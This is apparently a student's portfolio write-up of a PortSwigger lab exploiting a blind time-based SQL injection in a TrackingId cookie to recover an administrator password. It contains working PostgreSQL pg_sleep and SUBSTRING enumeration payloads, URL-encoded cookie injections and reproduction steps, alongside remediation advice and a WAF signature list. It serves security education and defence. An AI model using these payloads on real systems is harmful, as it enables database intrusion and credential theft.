


# 15-sqli-blind-time-based-password-extraction


---

## Table of Contents

1. [Overview](#overview)
2. [Scope & Objectives](#scope--objectives)
3. [Methodology](#methodology)
4. [Findings](#findings)
5. [Risk Summary](#risk-summary)
6. [Attack Chain](#attack-chain)
7. [Tools & Environment](#tools--environment)
8. [Evidence](#evidence)
9. [Remediation Strategy](#remediation-strategy)
10. [Lessons Learned](#lessons-learned)
11. [References](#references)
12. [Author](#author)

---

## Overview

This writeup documents the exploitation of a blind SQL injection vulnerability in a PortSwigger
Web Security Academy lab environment. The target application passes the value of a `TrackingId`
cookie into a backend PostgreSQL query without parameterisation. No query results are returned
to the client and error responses are suppressed, eliminating standard output channels.

The exploitation technique relies on synchronous query execution: by injecting conditional
`pg_sleep()` expressions and measuring response latency, it is possible to infer arbitrary
database content one character at a time. A custom Python script was developed to automate
iterative character enumeration across the `administrator` password field, recovering the full
credential and achieving authenticated access to the application.

This lab maps to **OWASP Top 10 (2021) A03** (Injection) and **CWE-89**, and demonstrates
complete credential extraction through a time-based blind channel with no direct output.

---

## Scope & Objectives

| Field | Detail |
|---|---|
| Platform | PortSwigger Web Security Academy |
| Lab Title | Blind SQL Injection with Time Delays and Information Retrieval |
| Lab Number | 15 (PortSwigger SQLi Series) |
| Target Component | `TrackingId` HTTP Cookie |
| Database Backend | PostgreSQL |
| In Scope | Cookie parameter injection, time-based inference, password enumeration |
| Out of Scope | Other parameters, network-layer attacks |
| Objective | Extract the `administrator` password from the `users` table and log in |

---

## Methodology

The assessment followed the **PTES (Penetration Testing Execution Standard)** and aligned with
**NIST SP 800-115** technical testing guidelines.

### Phase 1 — Injection Point Identification

Intercepted the application's HTTP requests using Burp Suite. Identified the `TrackingId`
cookie as the target parameter — processed server-side with no reflected output and no
distinguishable error state.

### Phase 2 — Time Delay Baseline Confirmation

Verified that the parameter is injectable by submitting a deterministic delay payload:

```
; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

URL-encoded form sent in cookie:

```
TrackingId=1S215IqjqmjWnOrm'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

A 10-second response delay confirmed injection. The inverse condition (`1=2`) returned
immediately, confirming the delay was conditional and not a network artefact.

### Phase 3 — Account Existence Confirmation

Confirmed the `administrator` account exists in the `users` table:

```
TrackingId=1S215IqjqmjWnOrm'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

10-second delay observed — account confirmed present.

### Phase 4 — Automated Password Extraction

Developed a Python script to enumerate the `administrator` password character by character.
Each request tests a single character at a specific index using `SUBSTRING()`:

```sql
; SELECT CASE WHEN (
    SUBSTRING(password, {position}, 1) = '{char}'
) THEN pg_sleep(10) ELSE pg_sleep(0) END
FROM users
WHERE username='administrator'--
```

A response time exceeding a defined threshold (e.g., 8 seconds) was treated as a positive
match. The script iterated across all printable ASCII characters at each index position until
the full password was recovered.

### Phase 5 — Authentication

Submitted the recovered password to the application's login endpoint as `administrator`.
Lab status transitioned to solved upon successful authentication.

---

## Findings

### F-001 — Blind Time-Based SQL Injection via TrackingId Cookie [CRITICAL]

| Field | Detail |
|---|---|
| Finding ID | F-001 |
| Severity | [CRITICAL] |
| CVSS v3.1 Score | 9.8 |
| CVSS v3.1 Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| CWE | CWE-89 — Improper Neutralisation of Special Elements used in an SQL Command |
| OWASP Top 10 (2021) | A03:2021 — Injection |
| MITRE ATT&CK TTP | T1190 — Exploit Public-Facing Application; T1078 — Valid Accounts |
| Affected Component | `TrackingId` HTTP Cookie |

**Description**

The application constructs a SQL query by directly concatenating the raw value of the
`TrackingId` cookie into the query string. The query executes synchronously against a
PostgreSQL backend. Although no results are returned and errors are suppressed, the
execution time of the query is observable through HTTP response latency. An attacker can
encode arbitrary SQL conditions into the cookie value and infer truth by measuring whether
the response takes 10 seconds or returns immediately.

**Technical Impact**

- Full extraction of any field in any table accessible to the database service account
- Recovery of the `administrator` plaintext password from the `users` table
- Authenticated administrative access to the application

**Business Impact**

- Complete compromise of the application under administrator credentials
- Exposure of all user data, session data, and backend functionality
- Regulatory liability under GDPR, PCI-DSS, and applicable data protection legislation

**Proof of Concept — Injection Confirmation**

```
Cookie: TrackingId=1S215IqjqmjWnOrm'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

**Proof of Concept — Character Enumeration Payload**

```sql
'; SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END
FROM users WHERE username='administrator'--
```

**Reproduction Steps**

1. Intercept any request to the application using Burp Suite.
2. Locate the `TrackingId` cookie value.
3. Append the following (decoded for readability):
   ```
   '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
   ```
4. Observe 10-second response delay — injection confirmed.
5. Replace condition with `username='administrator'` FROM `users` to confirm account presence.
6. Run character enumeration script against the `password` column to recover credentials.

---

## Risk Summary

| ID | Title | Severity | CVSS | Priority |
|---|---|---|---|---|
| F-001 | Blind Time-Based SQLi via TrackingId | [CRITICAL] | 9.8 | [IMMEDIATE] |

---

## Attack Chain

```
[Attacker]
    |
    v
[HTTP Request — malicious TrackingId cookie injected]
    |
    v
[Application concatenates cookie value directly into PostgreSQL query]
    |
    v
[Phase 1: 1=1 condition triggers pg_sleep(10) — injection confirmed]
    |
    v
[Phase 2: username='administrator' condition confirms account presence]
    |
    v
[Phase 3: Automated Python script enumerates password via SUBSTRING() + pg_sleep()]
    |
    v
[Full administrator password recovered — character by character]
    |
    v
[Login as administrator — lab solved]
```

**MITRE ATT&CK Mapping**

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Discovery | Account Discovery | T1087 |
| Credential Access | Unsecured Credentials | T1552 |
| Collection | Data from Information Repositories | T1213 |
| Persistence | Valid Accounts | T1078 |

---

## Tools & Environment

| Tool | Version | Purpose |
|---|---|---|
| Burp Suite Community Edition | Latest | HTTP interception, cookie modification, request replay |
| Python 3 | 3.x | Automated time-based character enumeration script |
| `requests` library | Latest | HTTP request execution in Python script |
| Browser (Chromium) | Latest | Lab access and login verification |
| PostgreSQL (target) | Not disclosed | Target database engine |
| PortSwigger Web Security Academy | N/A | Lab hosting platform |

---

## Evidence

**Figure 1 — Python Password Crack Script**


*Automated Python script iterating SUBSTRING() conditions over the password field using
pg_sleep() response timing to confirm each character.*

**Figure 2 — Script Output — Password Recovered**



*Script output displaying the fully enumerated administrator password after completing all
character positions.*

**Figure 3 — Lab Solved Confirmation**



*Application confirming successful authentication as administrator following credential recovery.*

---

## Remediation Strategy

### R-001 — Parameterise All SQL Queries [IMMEDIATE]

The `TrackingId` cookie value must be passed as a bound parameter — never interpolated into
a query string. Parameterised queries prevent any injected SQL from being interpreted by the
database engine.

**Vulnerable pattern (pseudocode):**
```sql
"SELECT ... WHERE tracking_id = '" + cookie_value + "'"
```

**Remediated pattern (pseudocode):**
```python
cursor.execute("SELECT ... WHERE tracking_id = %s", (cookie_value,))
```

### R-002 — Input Validation on Cookie Values [SHORT-TERM]

Apply allowlist validation to the `TrackingId` cookie. Tracking identifiers are typically
fixed-length alphanumeric strings. Any value containing SQL metacharacters (`'`, `;`, `%`,
`(`, `)`, `+`) should be rejected before the query is constructed.

### R-003 — Database Least Privilege [SHORT-TERM]

The service account executing analytics queries must not have `SELECT` access to the `users`
table. Separate database roles should be used for analytics and authentication contexts.

### R-004 — Response Time Normalisation [PLANNED]

Implement query execution timeouts and normalised response times at the application layer.
This does not eliminate injection risk but degrades the reliability of time-based inference
channels, requiring significantly more requests to extract each character.

### R-005 — Web Application Firewall Rule [PLANNED]

Deploy a WAF rule to detect and block requests containing SQL time-delay function signatures
(`pg_sleep`, `WAITFOR DELAY`, `SLEEP`) in cookie values. Treat matches as high-confidence
attack indicators.

### Retest Criteria

- Inject `'; SELECT pg_sleep(10)--` into the `TrackingId` cookie.
- Confirm response time is consistently under 1 second.
- Confirm no SQL error details appear in any response body, header, or log accessible to the client.

---

## Lessons Learned

- Blind time-based injection requires no output channel — response latency alone is sufficient
  to extract arbitrary data from a database with measurable precision.
- The `SUBSTRING()` + `CASE WHEN` + `pg_sleep()` pattern is a reliable PostgreSQL enumeration
  primitive. Equivalent constructs exist for MySQL (`SLEEP()`), MSSQL (`WAITFOR DELAY`),
  and Oracle (`dbms_pipe.receive_message`).
- Automation is necessary at scale. Manual character-by-character testing is impractical beyond
  confirming a few characters; scripting the enumeration loop reduces extraction time from
  hours to minutes.
- Threshold selection for timing attacks matters. Network jitter and server load can cause
  false negatives or false positives. Using a conservative threshold (e.g., 8 of 10 seconds)
  and repeating ambiguous results improves accuracy.
- Tracking cookies are high-value injection surfaces precisely because developers do not treat
  them as security boundaries. Any server-side SQL query consuming cookie data is within scope
  for injection testing.

---

## References

| Reference | Detail |
|---|---|
| OWASP Top 10 (2021) — A03 | https://owasp.org/Top10/A03_2021-Injection/ |
| CWE-89 | https://cwe.mitre.org/data/definitions/89.html |
| MITRE ATT&CK T1190 | https://attack.mitre.org/techniques/T1190/ |
| MITRE ATT&CK T1078 | https://attack.mitre.org/techniques/T1078/ |
| NIST SP 800-115 | https://csrc.nist.gov/publications/detail/sp/800/115/final |
| PortSwigger SQLi Cheat Sheet | https://portswigger.net/web-security/sql-injection/cheat-sheet |
| CVSS v3.1 Calculator | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |
| PostgreSQL SUBSTRING() | https://www.postgresql.org/docs/current/functions-string.html |
| PostgreSQL pg_sleep() | https://www.postgresql.org/docs/current/functions-datetime.html |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---
> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.
